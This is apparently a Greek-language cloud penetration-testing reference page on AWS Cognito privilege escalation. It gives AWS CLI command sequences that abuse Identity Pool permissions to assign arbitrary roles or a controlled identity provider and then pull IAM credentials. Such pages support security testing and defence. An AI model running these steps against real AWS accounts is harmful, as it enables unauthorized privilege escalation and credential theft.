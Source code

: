 {% content-ref url="../aws-services/aws-cognito-enum/" %}
[aws-cognito-enum](../aws-services/aws-cognito-enum/)
{% endcontent-ref %}

### Gathering credentials from Identity Pool

Καθώς το Cognito μπορεί να χορηγήσει **IAM role credentials** σε **authenticated** και **unauthenticated** **users**, αν εντοπίσετε το **Identity Pool ID** μιας εφαρμογής (θα πρέπει να είναι σκληρά κωδικοποιημένο σε αυτήν), μπορείτε να αποκτήσετε νέες πιστοποιήσεις και επομένως privesc (μέσα σε έναν λογαριασμό AWS όπου πιθανώς δεν είχατε καν καμία πιστοποίηση προηγουμένως).

Για περισσότερες πληροφορίες [**ελέγξτε αυτή τη σελίδα**](../aws-unauthenticated-enum-access/#cognito).

**Potential Impact:** Άμεσο privesc στους ρόλους υπηρεσιών που συνδέονται με τους ανώνυμους χρήστες (και πιθανώς και με αυτούς που συνδέονται με τους αυθεντικοποιημένους χρήστες).

### `cognito-identity:SetIdentityPoolRoles`, `iam:PassRole`

Με αυτήν την άδεια μπορείτε να **χορηγήσετε οποιονδήποτε ρόλο cognito** στους αυθεντικοποιημένους/ανώνυμους χρήστες της εφαρμογής cognito.
```bash
aws cognito-identity set-identity-pool-roles \
--identity-pool-id <identity_pool_id> \
--roles unauthenticated=<role ARN>

# Get credentials
## Get one ID
aws cognito-identity get-id --identity-pool-id "eu-west-2:38b294756-2578-8246-9074-5367fc9f5367"
## Get creds for that id
aws cognito-identity get-credentials-for-identity --identity-id "eu-west-2:195f9c73-4789-4bb4-4376-99819b6928374"
```
Αν η εφαρμογή cognito **δεν έχει ενεργοποιημένους τους μη αυθεντικοποιημένους χρήστες**, μπορεί να χρειαστείτε επίσης την άδεια `cognito-identity:UpdateIdentityPool` για να την ενεργοποιήσετε.

**Πιθανές Επιπτώσεις:** Άμεση privesc σε οποιονδήποτε ρόλο cognito.

### `cognito-identity:update-identity-pool`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να ρυθμίσει, για παράδειγμα, μια Cognito User Pool υπό τον έλεγχό του ή οποιονδήποτε άλλο πάροχο ταυτότητας όπου μπορεί να συνδεθεί ως **τρόπος πρόσβασης σε αυτή την Cognito Identity Pool**. Στη συνέχεια, απλά **συνδεόμενος** σε αυτόν τον πάροχο χρηστών θα **του επιτρέψει να έχει πρόσβαση στον ρυθμισμένο αυθεντικοποιημένο ρόλο στην Identity Pool**.
```bash
# This example is using a Cognito User Pool as identity provider
## but you could use any other identity provider
aws cognito-identity update-identity-pool \
--identity-pool-id <value> \
--identity-pool-name <value> \
[--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
--cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Now you need to login to the User Pool you have configured
## after having the id token of the login continue with the following commands:

# In this step you should have already an ID Token
aws cognito-identity get-id \
--identity-pool-id <id_pool_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Get the identity_id from thr previous commnad response
aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```